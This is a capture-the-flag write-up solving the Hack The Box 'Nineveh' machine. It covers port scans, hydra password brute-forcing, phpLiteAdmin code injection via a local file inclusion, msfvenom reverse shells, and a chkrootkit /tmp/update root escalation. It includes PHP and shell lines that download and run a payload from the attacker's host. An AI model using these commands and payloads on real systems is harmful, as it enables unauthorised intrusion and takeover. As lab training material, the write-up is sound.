# [Nineveh](https://app.hackthebox.eu/machines/54)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.43 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.43 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.43
# UDP quick scan
sudo nmap -v -sU -F --open -Pn 10.10.10.43
```

The TCP quick scan returns the following:



Start the following web scanner:

```bash
nikto -h http://10.10.10.43/ -C all --maxtime=120s --output=nikto.80.txt
```



Browse to the site manually:



Not much to see here... Start a scan of the HTTPS server:

```bash
nikto -h https://10.10.10.43/ -C all --maxtime=120s --output=nikto.443.txt
```



The `admin@nineveh.htb` email address is interesting... Browse to the site manually:


Getting somewhere? Try reconnecting using the `nineveh.htb` domain:

```bash
sudo sh -c 'echo "10.10.10.43 nineveh.htb" >> /etc/hosts'
firefox https://nineveh.htb
firefox http://nineveh.htb
```

But this does not show any changes... Start directory scanners looking for PHP files:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
# HTTP
gobuster dir -t 100 -r -q -z -o gobuster.http.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -u http://10.10.10.43/ &
# HTTPS
gobuster dir -t 100 -k -r -q -z -o gobuster.https.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -u https://10.10.10.43/ &
```

The HTTP directory scan returns some interesting results:

```
/info.php (Status: 200)
/department (Status: 200)
```

Browsing to `/info.php` shows the following:



This may be helpful in the future... Browsing to `/department` shows the following:



Getting somewhere... Trying some basic logins or SQL injections for a login bypass does not work... Looking at the HTML source does show an interesting comment:



So `amrois` is another username to keep in mind. Also, it seems like the login page may not be working yet since the MySQL instance was just installed? Move on for now... The HTTPS directory scanner returns some interesting results:

```
/db (Status: 200)
```

Browsing to `https://10.10.10/43/db` shows the following:



This looks promising. Start further directory scanners for these new directories in the background:

```bash
# HTTP
gobuster dir -t 100 -r -q -z -o gobuster.department.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -u http://10.10.10.43/department/ &
# HTTPS
gobuster dir -t 100 -k -r -q -z -o gobuster.db.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -u https://10.10.10.43/db/ &
```

Trying some basic login passwords does not work here... The default password is `admin`, which also does not seem to work:

- https://www.192-168-1-1-ip.co/router/phpliteadmin/phpliteadmin/16795/

Try looking for an exploit:

```bash
searchsploit phpliteadmin
```



The following look applicable:

- https://www.exploit-db.com/exploits/24044
  - A PHP code injection, but it requires authentication... 
- https://www.exploit-db.com/exploits/39714
  - Mentions XSS/HTML Injection/CSRF. Not helpful unless and active admin is suspected...

Since basic passwords are not working, try a brute-force. Here is the HTML form after a failed login for PHPLiteAdmin:

```html
<div id='loginBox'>
  <h1>
    <span id='logo'>phpLiteAdmin</span> 
    <span id='version'>v1.9</span>
  </h1>
  <div style='padding:15px; text-align:center;'>
    <span style='color:red;'>Incorrect password.</span><br/><br/>
    <form action='index.php' method='post'>
      Password: <input type='password' name='password'/><br/>
      <input type='checkbox' name='remember' value='yes' checked='checked'/> 
      Remember me<br/><br/>
      <input type='submit' value='Log In' name='login' class='btn'/>
      <input type='hidden' name='proc_login' value='true' />
    </form>
  </div>
</div>
```

Convert this HTML into the following brute-force attempt:

- **NOTE:** The `-l admin` does not matter here since only the password is needed

```bash
# copy over wordlist
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
# attempt to brute-force
hydra 10.10.10.43 https-form-post "/db/index.php:login=Log In&proc_login=true&remember=yes&password=^PASS^:Incorrect password" -l admin -P rockyou.txt -vV -f
```

And this results in the following win:



Using the password `password123` provides the following display:



From here, follow exploit 24044:

- Create a new database `bubba.php`



- Add a table to to the database:


- Set the default value to `<?php echo shell_exec("id") ?>`:



- phpLiteAdmin shows the location of the database on the main page:



- Change the location of the database from `/var/tmp/bubba.php` to `/var/www/html/bubba.php`. This location is found by looking at `http://10.10.10.43/info.php` to see where the server is serving files from:



But this gives the following error:

```
Warning: copy(/var/www/html/bubba.php): failed to open stream: Permission denied in /var/www/ssl/db/index.php on line 1259
```

It seems like the HTTP site is served from `/var/www/html` and the HTTPS site is served from `/var/www/ssl/`. Try moving the file into the known `/db` or `/department` directories with the following paths from the `gobuster` scans that were running in the background:

```
/var/www/ssl/
/var/www/ssl/db/
/var/www/html/
/var/www/html/department/
/var/www/html/department/css/
/var/www/html/department/files/
```

But this keeps giving a permission denied? Something is missing... After looking closer at the directory scans, and removing the `-z -q` for the HTTPS scan, there were many timeouts!!! This could have been too much for the server to handle? This means the `-t 100` for 100 threads was too much. Decrease it to 50 and re-run:

- Lesson learned here to not use too many threads with no error output...

```bash
gobuster dir -t 50 -k -r -z -q -o gobuster.https.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -u https://10.10.10.43/
```

However, all this shows is another directory `/secure_notes` with the following image when browsing to the site:


Looking inside this directory with another scan reveals some other nexted directories, but they do not allow for write access in order to use the PHPLiteAdmin exploit... Try an HTTP bruteforce on the login at `/department` for HTTP? Here is the relevant HTML after an invalid login:

- Interestingly, using `admin` as the username gives a password error and any other username gives an invalid username error. This means `admin` is a valid user...

```html
<span class="text text-danger"><b>Invalid Password!</b></span>
<form action="login.php" method="POST" class="form-horizontal">
  <div class="form-group">
    <label for="name">Username:</label>
    <input type="text" name="username"  class="form-control"  autofocus="true">
  </div>
  <div class="form-group">
    <label for="password">Password:</label>
    <input type="password" name="password"  class="form-control"  >
  </div>
  <div class="checkbox">
    <label>
      <input type="checkbox" name="rememberme"> Remember me
    </label>
  </div>
  <button type="submit" class="btn btn-default">Log in</button>
</form>
```

This becomes the following command:

```bash
hydra 10.10.10.43 http-form-post "/department/login.php:username=^USER^&rememberme=1&password=^PASS^:Invalid Password!" -l admin -P rockyou.txt -vV -f
```

And this has a win:



Trying that login shows the following:



Clicking on the `Notes` link brings up the following:



This alone is not that helpful. However, looking at the link shows something interesting:

```
http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt
```

Maybe this is the LFI needed to pull off the exploit from PHPLiteAdmin? Trying to view `/etc/passwd` returns the following error:

```
No Note is selected.
```

Trying to view this file using multiple `../` also does not work... Maybe the file extenion is what is important? Try the PHPLiteAdmin exploit again, but save the database as `bubba.txt` over `bubba.php`. However, this does not work... Playing around with this LFI some more shows that as long as the request contains `ninevehNotes.txt`, the file is included. Trying to browse to the following generates an interesting error:

```
http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt.bubba
```



Re-try the PHPLiteAdmin exploit _again_ but with a database named `ninevehNotes.txt.bubba.php`:

```
http://10.10.10.43/department/manage.php?notes=/var/tmp/ninevehNotes.txt.bubba.php
```



Finally! That is code execution. Use this to get a dedicated shell:

```bash
# generate payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.27 \
         LPORT=6969 \
         -f elf \
         -o bubba.elf
# host payload
sudo python3 -m http.server 80
# setup listener
nc -nvlp 6969
```

Now insert a new row in the table for that contains the following string:

```php
<?php shell_exec('wget -O /tmp/bubba.elf http://10.10.14.27/bubba.elf && chmod +x /tmp/bubba.elf && /tmp/bubba.elf'); ?>
```



Then trigger execution by browsing to the following link:

```
http://10.10.10.43/department/manage.php?notes=/var/tmp/ninevehNotes.txt.bubba.php
```

And this provides a shell, but not `user.txt`:



Looking around the system shows some weird things. Looking at the root directory shows a non-common directory:



`/report` is interesting. Inside it are interesting files:



They all have the same content:

```
ROOTDIR is `/'
Checking `amd'... not found
Checking `basename'... not infected
Checking `biff'... not found
Checking `chfn'... not infected
Checking `chsh'... not infected
Checking `cron'... not infected
Checking `crontab'... not infected
Checking `date'... not infected
Checking `du'... not infected
Checking `dirname'... not infected
Checking `echo'... not infected
Checking `egrep'... not infected
Checking `env'... not infected
Checking `find'... not infected
Checking `fingerd'... not found
Checking `gpm'... not found
Checking `grep'... not infected
Checking `hdparm'... not infected
Checking `su'... not infected
Checking `ifconfig'... not infected
Checking `inetd'... not tested
Checking `inetdconf'... not found
Checking `identd'... not found
Checking `init'... not infected
Checking `killall'... not infected
Checking `ldsopreload'... can't exec ./strings-static, not tested
Checking `login'... not infected
Checking `ls'... not infected
Checking `lsof'... not infected
Checking `mail'... not found
Checking `mingetty'... not found
Checking `netstat'... not infected
Checking `named'... not found
Checking `passwd'... not infected
Checking `pidof'... not infected
Checking `pop2'... not found
Checking `pop3'... not found
Checking `ps'... not infected
Checking `pstree'... not infected
Checking `rpcinfo'... not found
Checking `rlogind'... not found
Checking `rshd'... not found
Checking `slogin'... not infected
Checking `sendmail'... not found
Checking `sshd'... not infected
Checking `syslogd'... not tested
Checking `tar'... not infected
Checking `tcpd'... not infected
Checking `tcpdump'... not infected
Checking `top'... not infected
Checking `telnetd'... not found
Checking `timed'... not found
Checking `traceroute'... not found
Checking `vdir'... not infected
Checking `w'... not infected
Checking `write'... not infected
Checking `aliens'... no suspect files
Searching for sniffer's logs, it may take a while... nothing found
Searching for HiDrootkit's default dir... nothing found
Searching for t0rn's default files and dirs... nothing found
Searching for t0rn's v8 defaults... nothing found
Searching for Lion Worm default files and dirs... nothing found
Searching for RSHA's default files and dir... nothing found
Searching for RH-Sharpe's default files... nothing found
Searching for Ambient's rootkit (ark) default files and dirs... nothing found
Searching for suspicious files and dirs, it may take a while...
/lib/modules/4.4.0-62-generic/vdso/.build-id
/lib/modules/4.4.0-62-generic/vdso/.build-id
Searching for LPD Worm files and dirs... nothing found
Searching for Ramen Worm files and dirs... nothing found
Searching for Maniac files and dirs... nothing found
Searching for RK17 files and dirs... nothing found
Searching for Ducoci rootkit... nothing found
Searching for Adore Worm... nothing found
Searching for ShitC Worm... nothing found
Searching for Omega Worm... nothing found
Searching for Sadmind/IIS Worm... nothing found
Searching for MonKit... nothing found
Searching for Showtee... nothing found
Searching for OpticKit... nothing found
Searching for T.R.K... nothing found
Searching for Mithra... nothing found
Searching for LOC rootkit... nothing found
Searching for Romanian rootkit... nothing found
Searching for Suckit rootkit... Warning: /sbin/init INFECTED
Searching for Volc rootkit... nothing found
Searching for Gold2 rootkit... nothing found
Searching for TC2 Worm default files and dirs... nothing found
Searching for Anonoying rootkit default files and dirs... nothing found
Searching for ZK rootkit default files and dirs... nothing found
Searching for ShKit rootkit default files and dirs... nothing found
Searching for AjaKit rootkit default files and dirs... nothing found
Searching for zaRwT rootkit default files and dirs... nothing found
Searching for Madalin rootkit default files... nothing found
Searching for Fu rootkit default files... nothing found
Searching for ESRK rootkit default files... nothing found
Searching for rootedoor... nothing found
Searching for ENYELKM rootkit default files... nothing found
Searching for common ssh-scanners default files... nothing found
Searching for suspect PHP files...
/var/tmp/ninevehNotes.txt.bubba.php

Searching for anomalies in shell history files... Warning: `//root/.bash_history' file size is zero
Checking `asp'... not infected
Checking `bindshell'... not infected
Checking `lkm'... not tested: can't exec
Checking `rexedcs'... not found
Checking `sniffer'... not tested: can't exec ./ifpromisc
Checking `w55808'... not infected
Checking `wted'... not tested: can't exec ./chkwtmp
Checking `scalper'... not infected
Checking `slapper'... not infected
Checking `z2'... not tested: can't exec ./chklastlog
Checking `chkutmp'... not tested: can't exec ./chkutmp
Checking `OSX_RSPLUG'... not infected
```

Something is running every minute it seems as `amrios` since the files are all created as this user. Maybe this is a way to move laterally? There isn't much else to go off of here. Try finding all files onwed by this user:

```bash
find / -user amrois -type f -exec ls -lad {} \; 2>/dev/null
```



Looking at the files that it is possible to look at don't help solving the report file mystery. The `/var/mail/amrois` adds another puzzle to the mix:



This looks like a port knock sequence using 571, 290, 911. however this does not solve the mystery of the report files. Try a Goolge for the longest common phrase in the files "Searching for anomalies in shell history files...". The first hit is the following:

- https://www.webhostingtalk.com/showthread.php?t=564094

So maybe this is `chkrootkit`? Try to find the file on the target:

```bash
find / -iname chkrootkit 2>/dev/null
```



It seems the file exists but is not currently readable... Look for an exploit?

```bash
searchsploit chkrootkit
```



Nice! These look juicy:

- https://www.exploit-db.com/exploits/38775
- https://www.exploit-db.com/exploits/33899

Both describe that creating a file at `/tmp/update` will be executed by `chkrootkit` before version 0.50. Since checking the verison is not possible with the binary's permissions, make a quick test:

```bash
echo '#!/bin/sh' > /tmp/update
echo 'id > /tmp/test.bubba' >> /tmp/update
chmod +x /tmp/update
```

After waiting for a minute, an interesting file appears!



It looks like it is running as `root`! Use this to get a dedicated shell as `root`:

```bash
# on kali, generate payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.27 \
         LPORT=7777 \
         -f elf \
         -o bubba.root.elf
# on kali, host payload
sudo python3 -m http.server 80
# on kali, setup listener
nc -nvlp 7777
# on target, stage payload
echo '#!/bin/sh' > /tmp/update
echo '(wget -O /tmp/bubba.root.elf http://10.10.14.27/bubba.root.elf && chmod +x /tmp/bubba.root.elf && /tmp/bubba.root.elf) &' >> /tmp/update
chmod +x /tmp/update
```

And this returns a `root` shell:



---

Looking into the interesting email at `/var/mail/amrois` shows that an interesting process is running:



Some Googling for `knockd` leads to the following:

- https://zeroflux.org/projects/knock

The link says the configuration file is at `/etc/knockd.conf`. Find this file on the target:



This config file says that a port knock sequence of 571, 290, and 911 will allow for the target to connect over SSH. This isn't readily needed since `root` is already given?

---

After looking at the write-up for this machine, it seems like there is another way to move laterally from `www-data` to `amrios` by finding SSH keys in the strings of the photo at `https://10.10.10.43/secure_notes`. 

```bash
strings /var/www/ssl/secure_notes/nineveh.png | tail -n 40
```



Then use the port knocking to SSH into the machine as `amrios`. However, this lateral move is not necessary to escalate to `root`.

